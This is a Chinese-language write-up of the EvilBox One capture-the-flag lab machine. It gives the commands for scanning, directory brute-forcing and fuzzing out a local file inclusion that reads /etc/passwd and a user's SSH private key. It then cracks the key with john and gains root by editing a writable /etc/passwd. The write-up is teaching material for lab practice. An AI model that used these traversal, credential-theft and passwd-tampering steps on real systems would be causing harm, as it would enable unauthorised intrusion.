> 此文章以 kali 地址为 10.10.10.5 为示例

# EvilBox One

  

## 主机发现

  

```bash

sudo nmap -sn 10.10.10.0/24

```

  

靶机的主机为 10.10.10.18

  

## 服务识别

  

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

  

扫描开放的端口

```bash

sudo nmap --min-rate 10000 -p- 10.10.10.18

```

  

扫描开放端口的基本信息，并将结果保存到本地以便于随时观看

```bash

sudo nmap -sT -sC -sV -p22,80 10.10.10.18 -oA nmap/Scan

```

  


  

使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地

```bash

sudo nmap --script=vuln -p22,80 10.10.10.18 -oA nmap/Script

```

  



  

发现暴露出了很多目录，执行一下完整的目录爆破

  

```bash

sudo gobuster dir -u http://10.10.10.18 -w /usr/share/dirb/wordlists/common.txt

```

  



  

## WEB 渗透

  

80 界面是默认的 Apache2 界面

  



  

robots.txt 界面是一句话，没有价值

  


  

secret 界面打不开，

gobuster 告诉我们 secret 下面可能还有目录，

扫描一下看看

  

这次我们指定 http 、php 、txt 作为扫描目标

  

```bash

sudo gobuster dir -u http://10.10.10.18/secret -w /usr/share/dirb/wordlists/common.txt -x http,php,html  

```

  



  

果然有新的发现 evil.php，

访问一下还是空的，

fuzz 一下试试

  

```bash

sudo wfuzz -u "10.10.10.18/secret/evil.php?FUZZ=../../../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/common.txt --hw 0

```

  



  

显示有一个 command 可以执行文件包含，

在网页上试试

  

```bash

http://10.10.10.18/secret/evil.php?command=../../../../../../etc/passwd

```

  



  

发现除了 root ， mowree 也有 bash 环境，那就重点关注一下 mowree 这个用户

  



  

查看一下私钥，发现能查看，保存到本地

  



  

用 john 自带的脚本破解一下

  

```bash

/usr/share/john/ssh2john.py hash/id_rsa > hash_rsa

```

  

使用 john 破解

  

```bash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa    

```

  



  

## Linux 提权

  

拿到了密码，使用 id_rsa 连接看看

  

```bash

ssh mowree@10.10.10.18 -i hash/id_rsa

```

  

发现 /etc/passwd 有写权限

  

```bash

ls -liah /etc/passwd

```

  



  

使用 openssl 创建的 hash 修改掉 root 中的 x

  

```bash

openssl passwd admin

  

vi /etc/passwd

```

  



  



  

## 总结

  

了解 fuzz 、 文件包含 、 公私钥，

这台靶机就不难了